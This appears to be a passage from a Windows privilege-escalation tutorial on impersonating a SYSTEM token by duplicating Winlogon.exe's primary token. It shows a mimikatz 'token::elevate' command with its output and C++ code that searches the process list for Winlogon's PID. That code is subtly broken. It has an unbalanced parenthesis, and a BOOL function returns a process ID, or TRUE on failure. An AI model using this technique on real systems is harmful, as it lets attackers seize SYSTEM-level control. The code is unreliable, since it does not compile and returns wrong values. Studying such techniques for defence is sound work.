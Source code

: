 ## Impersonate a `SYSTEM` token

After the Debug privilege is enabled we need to create a process with `SYSTEM` level privileges by duplicating the Primary Token of a process running under the security context of `SYSTEM` (in our case this process will be [`Winlogon.exe`](https://github.com/carlospolop/hacktricks/blob/master/forensics/basic-forensic-methodology/windows-forensics/windows-processes.md#winlogonexe)).

This is what mimikatz will do when we issue the command:
```batch
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    akatsuki\0b1to        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

Mimikatz uses the Windows API calls `CreateToolhelp32Snapshot()`, `Process32FirstW()` and `Process32NextW()` to search the process list for the Winlogon process PID. 

```cpp
BOOL GetWinlogonPid( )
{
  HANDLE hProcessSnap;
  PROCESSENTRY32 pe32;

  // Take a snapshot of all processes in the system.
  hProcessSnap = CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0 );
  if( hProcessSnap == INVALID_HANDLE_VALUE )
  {
    printError( TEXT("CreateToolhelp32Snapshot (of processes)") );
    return( FALSE );
  }

  // Set the size of the structure before using it.
  pe32.dwSize = sizeof( PROCESSENTRY32 );

  // Retrieve information about the first process,
  if( !Process32First( hProcessSnap, &pe32 ) )
  {
    printError( TEXT("Process32First") ); // show cause of failure
    CloseHandle( hProcessSnap );          // clean the snapshot object
    return( FALSE );
  }

  // Now walk the snapshot of processes
  do
  {
      if(_stricmp(pe32.szExeFile, "winlogon.exe") == 0))
      {
          return pe32.th32ProcessID;
      } 
  } while( Process32Next( hProcessSnap, &pe32 ) );

  CloseHandle( hProcessSnap );
  return( TRUE );
}

```